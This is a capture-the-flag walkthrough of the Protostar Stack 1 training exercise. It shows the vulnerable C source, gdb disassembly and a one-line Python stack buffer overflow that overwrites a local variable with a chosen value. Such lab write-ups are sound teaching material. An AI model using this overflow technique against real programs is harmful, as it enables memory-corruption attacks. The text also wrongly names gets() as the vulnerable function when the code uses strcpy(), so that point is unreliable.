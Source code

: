 # PROTOSTAR : STACK 1
[Protostar:Stack1](https://exploit.education/protostar/stack-one/)

### SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

### **CODE ANALYSIS**
#### Vulnerability
- Stack Buffer Overflow

Same as the previous level we are going to exploit the **gets()**
function since it is vulnerable to Buffer Overflow attacks. After overflowing we need to pass the value keeping **LITTLE ENDIAN** in mind.

### **SOLUTION**

Below is the disassembly of **main()**
```
user@protostar:/opt/protostar/bin$ gdb -q stack1
Reading symbols from /opt/protostar/bin/stack1...done.
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave  
0x080484d6 <main+114>:  ret    
End of assembler dump.
(gdb) 
```

1. At **0x0804846d** there is a comparison of ebp+0x8 with 1. This line is checking if the user has suppied any command line arguments or not.

2. At **0x080484ab** there is another comparison, checks whether the value of eax is equal to 0x61626364.
    - If true prints "**you have correctly got the variable to the right value\n**"

    - If false eip goes to **0x80484c0** and prints "**Try again, you got 0x%08x\n", modified**"

Set up a breakpoint at **0x080484a7** and Passing input.
We can see the program overflows the **modified** variable and changes it to **0x41** but we need **0x61626364**. Lets write a python script.
```
(gdb) b *0x080484a7
Breakpoint 1 at 0x80484a7: file stack1/stack1.c, line 18.
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, main (argc=2, argv=0xbffff804) at stack1/stack1.c:18
18      stack1/stack1.c: No such file or directory.
        in stack1/stack1.c
(gdb) c
Continuing.
Try again, you got 0x00000041

Program exited with code 036.
(gdb) 
```

### **PYTHON SCRIPT**
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c "print 'A'*64 + 'dcba'")
you have correctly got the variable to the right value
```
We correctly changed the value of **modified** variable and keep in mind to pass the value in **LITTLE ENDIAN**. The string "dcba" will be stored in reverse in little endian and in hex values.
